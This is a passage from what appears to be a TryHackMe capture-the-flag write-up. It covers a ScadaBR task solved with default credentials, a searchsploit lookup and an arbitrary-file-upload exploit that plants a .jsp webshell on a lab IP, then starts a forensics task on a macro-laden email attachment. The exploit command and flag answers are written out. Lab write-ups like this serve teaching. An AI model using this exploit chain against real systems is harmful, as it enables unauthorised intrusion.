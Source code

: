 ✅ **Successful login.**

---

#### 4. **Searched for exploit:**

```
searchsploit scadabr
```

✅ Found exploit **49734.py** for arbitrary file upload (Windows).

---

#### 5. **Executed exploit:**

```bash
python2 49734.py 10.10.132.124 8080 admin admin
```

✅ Uploaded .jsp webshell successfully.

---

#### 6. **Retrieved flag via webshell.**

```
THM{rce_archieved_through_script_injection}
```

---

### 💡 **Lessons Learned**

* Always test **default SCADA credentials**.
* Searchsploit remains essential for rapid exploit identification.

---

## 📝 **Task 13 – Orcam** {#task-13--orcam}

### 🗂️ **Category:** Forensics

### 🎯 **Difficulty:** Easy

### 🏷️ **Flag:** THM{Ev1l\_M\@Cr0}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Opened writing\_template.eml**

✅ Found base64 encoded macro-enabled doc (.docm).

---

